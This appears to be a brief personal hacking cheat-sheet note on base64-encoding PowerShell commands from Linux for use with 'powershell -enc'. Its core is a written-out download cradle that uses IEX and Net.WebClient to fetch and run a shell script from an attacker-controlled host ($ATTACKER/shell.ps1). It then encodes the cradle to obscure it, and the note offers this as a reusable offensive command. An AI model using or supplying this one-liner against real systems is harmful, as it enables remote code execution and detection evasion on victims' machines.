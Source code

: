 # powershell encode commands as base64 with windows wide char strings in linux
```bash
echo -n "IEX(New-Object Net.WebClient).downloadString('http://$ATTACKER/shell.ps1')" | iconv -t UTF-16LE | base64 -w 0
```

Target:
```
powershell -nop -enc <BASE64_ENCODED_PAYLOAD>
```

# Related

- [20221003150730](/zet/20221003150730/README.md) powershell
- ~/kb/hacking/commands/encode-powershell-base64-windows.md

Tags:

    #assorted #command #hacking #windows #encode
